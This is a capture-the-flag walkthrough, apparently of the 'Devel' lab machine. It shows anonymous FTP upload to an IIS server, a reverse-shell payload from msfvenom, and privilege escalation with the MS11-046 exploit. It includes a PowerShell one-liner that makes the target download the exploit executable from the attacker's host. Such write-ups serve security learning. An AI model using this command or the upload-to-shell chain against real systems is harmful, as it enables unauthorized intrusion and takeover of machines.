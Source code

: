 # Devel

## Recon

First lets start with a nmap scan. This will give us some info like open ports.

![scan](https://imgur.com/f2hjZGN.png)

From the nmap scan results we see that port 21 and 80 are open.

* port 21 is used for ftp
  * ftp or file transfer protocol. FTP is used to distribute large files across the web server or to upload files to an online server.
* port 80 is used for Hypertext Transfer Protocol (HTTP)
  * This port is a common one in TCP. It sends and receive requested web page.

Since port 80 is open lets enter the ip address in the search bar and see what pops up.

![page](https://imgur.com/3EJvO9M.png)

It appears we have some sort of welcome page? At first glance we see IIS7. And if we click the web page we get taken to a microsoft web page that talks about IIS.

![ms](https://imgur.com/9k3rITd.png)

Next lets take a look at the source code.

![code](https://imgur.com/B7htyOH.png)

Since the site uses IIS we can use this to our advantage.

## FTP

From our nmap scan we see that ftp allows Anonymous logins. We use the ftp command in the terminal.

![ftp](https://imgur.com/0Db0sfx.png)

We successfully connected and using `ls` we can see what files.

Using this connection we can put files in the web server. For example lets put a text file just to test it.

![filetransfer](https://imgur.com/rwQTonr.png)

Now lets call the file from the webpage.

![blah](https://imgur.com/kqDPr0v.png)

Now instead of a txt file lets create a payload using msfvenom.

![msfvenom](https://imgur.com/p9o3Rg1.png)

And just like the txt file we will put the payload in the server with ftp. And once the we call the file we can see command prompt.

![shell](https://imgur.com/O016Icj.png)

However it seems that access is denied....

![denied](https://imgur.com/O0DqEJu.png)

Seems we need to try some privilege escalation lets take a look at the system information.

![info](https://imgur.com/7syCuit.png)

We see that the OS version is 6.1.7600 N/A Build 7600, using all the information lets look for an exploit.

## exploit

After a couple of google searches I found a priv sec exploit.

* [MS11-046](https://www.exploit-db.com/exploits/40564)

> An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel. An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability. An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).

First we download the MS11-046 from github.

![github](https://imgur.com/6h6AGpT.png)

Then using powershell and python we can have the target download this exe from our machine.

We will use python http server to send the files and establish a connection.

```
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.27:8000/ms11-046.exe', 'c:\Users\Public\Downloads\ms11-046.exe')"
```

This command will download the exe to the target, placing it in the download folder.

![server](https://imgur.com/69K0VDx.png)

Our file was sent successfully!!

Now lets change to the download folder and run our exe.

![exe](https://imgur.com/7tL9VBI.png)

It works now all thats left to find the flags.

![flags](https://imgur.com/hdcIK29.png)
